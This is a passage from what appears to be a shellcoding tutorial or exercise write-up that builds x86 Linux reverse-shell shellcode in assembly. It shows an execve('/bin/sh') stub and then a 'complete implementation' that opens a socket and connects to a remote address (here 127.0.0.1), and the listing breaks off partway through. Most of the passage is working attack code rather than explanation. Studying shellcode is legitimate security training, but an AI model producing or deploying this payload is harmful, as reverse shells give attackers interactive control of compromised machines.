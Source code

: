 ```
mov cl, 0x2
int 0x80                ; third call with 2
```

I won’t explain this code again, as it is exactly the same as exercise 1. If you are unsure of the implementation above, please check that post.

By this point, our asm script sets up a socket, attempts to connect to a remote host and sets up our pipes ready for our new target process, in this case, it’s our “/bin/sh” shell. This means the final system call required is our execve() call. Again, this implementation came out the same as exercise 1, so again, I won’t step through it.

```
; syscall execve 11 (0xb)
xor eax, eax
push eax

; push //bin/sh and point at stack for 1st
push 0x68732f6e
push 0x69622f2f
mov ebx, esp

push eax
mov ecx, esp

push eax
mov edx, esp

xor eax, eax
mov al, 0xb
int 0x80
```

Our complete implementation can be seen below:
```
global    _start
section .text

_start:
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; syscall socket 359 (0x167)
    ; int socket(int domain, int type, int protocol); - returns fd
    mov ax, 0x167                     ; sys call number
    mov bl, 0x2                       ; AF_INET
    mov cl, 0x1                       ; SOCK_STREAM
    ; EDX should already be 0 from initial clear up top
    
    int 0x80                          ; exec syscall
    mov edi, eax                      ; save the fd

    ; syscall connect 362 (0x16a)
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    xor eax, eax
    mov ax, 0x16a
    mov ebx, edi                      ; our backed up fd from socket

    ; create our struct
    xor ecx, ecx
    push ecx
    mov byte [esp], 0x7f              ; now esp is: 0x0000007f
    mov byte [esp+3],0x01             ; now esp is 0x0100007f
```